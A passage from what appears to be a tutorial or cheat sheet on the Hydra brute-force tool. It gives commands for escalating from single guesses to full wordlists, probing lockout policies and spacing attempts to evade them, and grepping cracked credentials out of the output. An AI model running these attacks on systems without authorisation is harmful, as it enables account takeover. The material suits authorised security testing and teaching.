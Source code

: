 ### 2. Gradual Escalation
```bash
# Start small and targeted
hydra -l admin -p admin target service

# Common credentials
hydra -C common_creds.txt target service

# Dictionary attack
hydra -L users.txt -P small_pass.txt target service

# Full wordlist (last resort)
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt target service
```

### 3. Account Lockout Awareness
```bash
# Test for lockout policies first
hydra -l testuser -p wrongpass1 -p wrongpass2 -p wrongpass3 -f target service

# If lockout detected, adjust strategy
hydra -w 300 -t 1 -L users.txt -p commonpass target service  # 5-minute delays
```

---

## 🔍 Analyzing Results

### Understanding Output
```bash
# Successful login found
[22][ssh] host: 192.168.1.100   login: admin   password: password123

# Connection errors
[ERROR] could not connect to target port 22

# Authentication failures
[22][ssh] host: 192.168.1.100   login: admin   password: wrong
```

### Processing Results
```bash
# Extract successful logins
grep -E "\[.*\]\[.*\].*login:" hydra_output.txt

# Count attempts
grep -c "login:" hydra_output.txt

# Extract unique successful credentials
grep "login:" hydra_output.txt | awk '{print $5 ":" $7}' | sort -u
```

---